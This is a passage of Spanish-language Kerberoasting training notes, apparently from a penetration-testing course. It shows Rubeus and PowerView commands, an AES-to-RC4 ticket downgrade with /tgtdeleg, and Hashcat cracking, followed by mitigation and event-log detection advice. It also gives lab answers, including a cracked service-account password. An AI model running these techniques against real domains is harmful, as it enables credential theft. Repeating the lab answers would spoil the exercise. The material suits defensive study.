Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

Solicitar un nuevo ticket con Rubeus nos mostrará que el nombre de la cuenta está usando el cifrado AES-256 (tipo 18).

#### Solicitar un nuevo ticket

```powershell
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

Para pasar esto por Hashcat, tenemos que usar el modo hash `19700`, que es `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)`según la a mano tabla [de ejemplo](https://hashcat.net/wiki/doku.php?id=example_hashes) de Hashcat. Corremos el hash de AES de la siguiente manera y comprobamos el estado, que demuestra que debe tomar más de 23 minutos para correr a través de todo el rockyou.txt wordlist escribiendo `s`ver el estado del trabajo de cracking.

#### Corriendo Hashcat y Comprobando el estado del trabajo de agrietamiento



Cuando el hash finalmente se rompe, vemos que tomó 4 minutos 36 segundos para una contraseña relativamente simple en una CPU. Esto sería muy magnificado con una contraseña más fuerte / más larga.

Podemos usar Rubeus con el `/tgtdeleg` para especificar que sólo queremos cifrado RC4 al solicitar un nuevo billete de servicio. La herramienta hace esto especificando el cifrado RC4 como el único algoritmo que apoyamos en el cuerpo de la solicitud TGS. Esto puede ser un fracaso incorporado a Active Directory para la compatibilidad hacia atrás. Mediante el uso de esta bandera, podemos solicitar un billete cifrado RC4 (tipo 23) que se puede agrietar mucho más rápido.



En la imagen anterior, podemos ver que al suministrar la `/tgtdeleg`bandera, la herramienta solicitó un ticket RC4 a pesar de que los tipos de cifrado soportados se enumeran como AES 128/256. Este simple ejemplo muestra la importancia de la enumeración detallada y la excavación más profunda cuando se realizan ataques como Kerberoasting. Aquí podríamos rebajar de AES a RC4 y reducir el tiempo de crack en más de 4 minutos y 30 segundos. En un compromiso en el mundo real donde tenemos una plataforma de grietas de contraseña de GPU fuerte a nuestra disposición, este tipo de rebaja podría resultar en un agrietamiento de hachís en unas pocas horas en lugar de unos días y podría hacer y romper nuestra evaluación.

**Esto no funciona contra un controlador de dominio de Windows Server 2019, independientemente del nivel funcional de dominio. Siempre devolverá un ticket de servicio cifrado con el más alto nivel de cifrado soportado por la cuenta objetivo. Dicho esto, si nos encontramos en un dominio con Controladores de Dominio que se ejecutan en Server 2016 o anterior (lo cual es bastante común), permitiendo AES no mitigará parcialmente Kerberoasting al devolver sólo los billetes cifrados de AES, que son mucho más difíciles de romper, sino que más bien permitirá a un atacante solicitar un ticket de servicio cifrado RC4. En Windows Server 2019 DCs, permitir el cifrado de AES en una cuenta de SPN resultará en que recibamos un ticket de servicio AES-256 (tipo 18), que es sustancialmente más difícil (pero no imposible) de romper, especialmente si se utiliza una contraseña de diccionario relativamente débil.**

Es posible editar los tipos de cifrado utilizados por Kerberos. Esto se puede hacer abriendo Group Policy, editando la Política de Dominio por defecto y eligiendo: `Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options`, luego haciendo doble clic en `Network security: Configure encryption types allowed for Kerberos`y seleccione el tipo de cifrado deseado permitido para Kerberos. Eliminando todos los demás tipos de cifrado excepto `RC4_HMAC_MD5`permitiría que el ejemplo de rebaja anterior se produjera en 2019. La eliminación del apoyo a AES introduciría un fallo de seguridad en AD y probablemente nunca debería hacerse. Además, eliminar el soporte para RC4 independientemente de la versión de Domain Controller Windows Server o nivel funcional de dominio podría tener impactos operativos y debe ser probado a fondo antes de la implementación.

---

#### What is the name of the service account with the SPN 'vmware/inlanefreight.local'?



Respuesta: `svc_vmwaresso`
#### Crack the password for this account and submit it as your answer.





Respuesta: `Virtual01`


---


## Mitigación y detección

Una mitigación importante para las cuentas de servicios no administradas es establecer una larga y compleja contraseña o contraseña que no aparece en ninguna lista de palabras y tardaría demasiado en romperse. Sin embargo, se recomienda utilizar [Cuentas de Servicio Gestionado (MSA](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009)), y [Cuentas de Servicio Gestionado de Grupo (gMSA](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)), que utilizan contraseñas muy complejas, y rotar automáticamente en un intervalo de configuración (como cuentas de máquinas) o cuentas configuradas con LAPS.

Kerberoasting solicita boletos de Kerberos TGS con cifrado RC4, que no debería ser la mayor parte de la actividad de Kerberos dentro de un dominio. Cuando Kerberoasting está ocurriendo en el medio ambiente, veremos un número anormal de `TGS-REQ`y `TGS-REP`solicitudes y respuestas, señalizando el uso de herramientas automatizadas de Kerberoasting. Los controladores de dominio se pueden configurar para registrar las solicitudes de boletos Kerberos TGS seleccionando [Auditoría Kerberos Service Ticket Operations](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-kerberos-service-ticket-operations) dentro de Group Policy.



Hacerlo generará dos identificaciones de eventos separadas: [4769:](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769) Se solicitó un boleto de servicio de Kerberos, y [4770:](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4770) Se renovó un boleto de servicio de Kerberos. 10-20 Las solicitudes de TGS de Kerberos para una cuenta dada pueden considerarse normales en un entorno determinado. Una gran cantidad de 4769 identificaciones de eventos de una cuenta en un corto período puede indicar un ataque.

A continuación podemos ver un ejemplo de un ataque de Kerberoasting siendo registrado. Vemos que muchos eventos ID 4769 se registran en sucesión, lo que parece ser un comportamiento anómalo. Al hacer clic en uno, podemos ver que un billete de servicio de Kerberos fue solicitado por el `htb-student`usuario (atacante) para el `sqldev`cuenta (objetivo). También podemos ver que el tipo de cifrado de tickets es `0x17`, que es el valor hexadial para 23 (`DES_CBC_CRC, DES_CBC_MD5, RC4, AES 256`), lo que significa que el billete solicitado era RC4, por lo que si la contraseña era débil, hay una buena posibilidad de que el atacante pueda romperlo y obtener el control de la `sqldev`.

